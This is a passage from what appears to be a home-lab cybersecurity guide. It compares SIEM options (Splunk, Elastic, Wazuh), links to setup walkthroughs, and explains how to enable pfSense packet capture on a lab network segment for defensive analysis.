

### Summary

- **Splunk** is best for organizations that prioritize ease of use, scalability, and real-time monitoring but can afford the higher cost.
- **Elastic Stack** is ideal for those who need a flexible and highly customizable solution, especially in organizations that prefer an open-source platform with optional enterprise features.
- **Wazuh** is suitable for organizations looking for a cost-effective, open-source SIEM solution with built-in security monitoring and compliance management, particularly in environments where Elastic Stack is already in use or can be deployed.

Based on the SIEM decision, use the walkthroughs below to help installing and configuring the SIEM of choice.

**Splunk**

[Installing Splunk](https://www.notion.so/Installing-Splunk-d8f12eabdaa041a5aab53d4b9e4c6110?pvs=21) 

 **Elastic**

[Install Elastic ](https://www.notion.so/Install-Elastic-195a323bbfb646c486f5ac9cb3277a34?pvs=21) 

[Configure Elastic](https://www.notion.so/Configure-Elastic-517e01824ddf4fc68e343c3c8db95bd7?pvs=21) 

[Implementing Elastic Cloud In Our Home Lab](https://www.notion.so/Implementing-Elastic-Cloud-In-Our-Home-Lab-56e8e193c1d74bcab1dcf6b76762056a?pvs=21) 

**Wazuh**

[Intro to Wazuh Part 1: Setup and Detecting Malware ](https://www.notion.so/Intro-to-Wazuh-Part-1-Setup-and-Detecting-Malware-617d1929599e4bf5a27ae8302bacab7a?pvs=21) 

[Intro to Wazuh Part 2: VirusTotal Integration and Windows Defender, Sysmon, and PowerShell Logging  ](https://www.notion.so/Intro-to-Wazuh-Part-2-VirusTotal-Integration-and-Windows-Defender-Sysmon-and-PowerShell-Logging-edbb691860a7421cb93d84933d5af138?pvs=21) 

[Intro to Wazuh Part 3: Sysmon Tuning, Wazuh Custom Rules, and APT Simulator](https://www.notion.so/Intro-to-Wazuh-Part-3-Sysmon-Tuning-Wazuh-Custom-Rules-and-APT-Simulator-9acc104f2fe045889a70a1fac7fbcaa2?pvs=21) 

## **Packet Capture**

pfSense provides an opportunity to do full packet capture. We can configure full packet capture to take place at the edge of the ECorp network segment. This placement will ensure we collect only packets entering or exiting ECorp.



  To configure packet collection, we will log into the the pfSense web interface.  In the Diagnostics drop down choose Packet Capture. 



Under the Capture Options choose ECORP (vnet2) and ensure that Promiscuous Mode is enabled. There are other options; however, we will keep the default settings.



To save storage space in our lab. we will only turn on full packet capture during our testing and exercises. Top start capturing packets, scroll down to the bottom of the page and select “Start”.  


When you have competed the testing you can stop the capture by selecting stop.



You can then download the packet captures to analyze the packets using your tool of choice, WireShark, Zeek, RITA. Brim, etc. 



We can correlate data from logs ingested into the SIEM and pcap analysis.



Network traffic is another valuable data source we can use to investigate incidents and threat hunt.

## Review of Data Sources

Logs (SIEM)

Network Traffic (pfSense)

End Point (Velociraptor)?